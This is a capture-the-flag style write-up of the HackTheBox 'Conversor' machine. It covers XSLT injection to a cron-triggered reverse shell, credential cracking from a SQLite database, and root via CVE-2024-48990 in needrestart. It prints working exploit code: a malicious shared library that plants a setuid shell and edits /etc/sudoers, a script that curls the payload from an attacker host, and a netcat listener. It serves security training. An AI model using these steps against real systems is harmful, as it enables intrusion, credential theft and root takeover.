# HackTheBox Machine Write‑up — Conversor
## Overview

This document contains the full attack chain used to enumerate, exploit, and escalate privileges on the Conversor machine from HackTheBox.

## Enumeration
Started with an initial Nmap scan to discover open services on the target.
``` bash
nmap -sC -sV -oA initial <target-ip>
```



### Results:

- Port 22 — OpenSSH
- Port 80 — HTTP

Port 80 revealed a redirect to: http://conversor.htb. 
Added the URL entry to the /etc/hosts file

## Exploitation
Source Code Review

Browsing the website’s About section exposed a download link to the application’s source files.
Reviewing app.py revealed a key finding:



- XML parsing is protected using:
- XSLT parsing, however, lacks a secure parser, making it vulnerable to XXE through XSLT.

This vulnerability enables XSLT Injection, allowing remote file access and code execution.

Reference used:
https://swisskyrepo.github.io/PayloadsAllTheThings/XSLT%20Injection/#read-files-and-ssrf-using-document


### Weaponizing the XSLT Vulnerability

The server executes uploaded XSLT templates.
Additionally, install.md reveals a cron job scanning /var/www/conversor.htb/scripts/.



Using this information, a malicious malicious.xslt was created to spawn a Python reverse shell when executed by the cron job.

#### Steps:

1. Create reverse‑shell XSLT payload named malicious.xslt.

    

2. Ensure upload location:

    ``` bash 
    /var/www/conversor.htb/scripts/
    ```

3. Upload via web interface.

    

4. On attacker machine, listen for shell:
    ``` bash 
    nc -lvnp <port>
    ```

5. Wait for the cron job to execute the payload and gain a reverse shell.

    

## Post-Exploitation — Foothold

### Discovering User Credentials

Inside app.py, a SQLite database file containing user records was referenced.



Dumped it using:
``` bash
sqlite3 conversor.db
.tables
SELECT * FROM users;
```


Cracked credentials using CrackStation:



Logged into SSH and took the user flag:



## Privilege Escalation

Checking sudo privileges revealed that fismathack could run a vulnerable binary associated with: CVE‑2024‑48990 (https://nvd.nist.gov/vuln/detail/CVE-2024-48990)


Searching in the internet, I found this PoC.
https://github.com/pentestfunctions/CVE-2024-48990-PoC-Testing

### Developing the Exploit
On attacker machine, created and compiled malicious shared library to escalate privileges:

1. Created the lib.c file in /tmp/malicious/importlib directory
    ``` bash
    #include <stdio.h>
    #include <stdlib.h>
    #include <sys/types.h>
    #include <unistd.h>

    static void a() __attribute__((constructor));

    void a() {
        if(geteuid() == 0) {
            setuid(0);
            setgid(0);
            const char *shell = "cp /bin/sh /tmp/poc; "
                                "chmod u+s /tmp/poc; "
                                "grep -qxF 'ALL ALL=NOPASSWD: /tmp/poc' /etc/sudoers || "
                                "echo 'ALL ALL=NOPASSWD: /tmp/poc' | tee -a /etc/sudoers > /dev/null &";
            system(shell);
        }
    }
    ```
2. Compiled it and created the malicious library
    ``` bash
    gcc -shared -fPIC -o "/tmp/malicious/importlib/__init__.so" /tmp/malicious/lib.c
    ```

3. Host the exploit from the attacker's machine
    ``` bash
    python3 -m http.server
    ```

### Triggering the Exploit on the Target
1. On the target machine, create the file with this script, give it an executable permission, and run it. This script will fetch and execute it using Python import logic:

    ``` bash
    #!/bin/bash
    set -e
    cd /tmp

    mkdir -p malicious/importlib

    #### replace this attacker-ip with your attacker machines's IP address 
    curl http://<attacker-ip>:8000/__init__.so -o /tmp/malicious/importlib/__init__.so

    cat << 'EOF' > /tmp/malicious/e.py
    import time
    while True:
        try:
            import importlib
        except:
            pass
        if __import__("os").path.exists("/tmp/poc"):
            print("Got shell!, delete traces in /tmp/poc, /tmp/malicious")
            __import__("os").system("sudo /tmp/poc -p")
            break
        time.sleep(1)
    EOF

    cd /tmp/malicious; PYTHONPATH="$PWD" python3 e.py 2>/dev/null
    ```
2. In a second SSH session, trigger the vulnerable binary:
    ``` bash
    sudo /usr/sbin/needrestart
    ```

    


## Conclusion

| Stage               | Technique                                  | Outcome                       |
|---------------------|---------------------------------------------|-------------------------------|
| Initial Access      | XSLT Injection → Cron Execution            | Reverse shell as `www-data`   |
| Lateral Move        | Database Credential Extraction             | SSH access as `fismathack`    |
| Privilege Escalation| CVE‑2024‑48990 shared object injection     | Root access                   |


## Lessons Learned

- XSLT must enforce secure parsers to prevent XXE.
- Exposed source code greatly simplifies reconnaissance.
- Cron‑based execution paths must be validated and secured.
- Privilege escalation through Python import hijacking remains a high‑impact vector.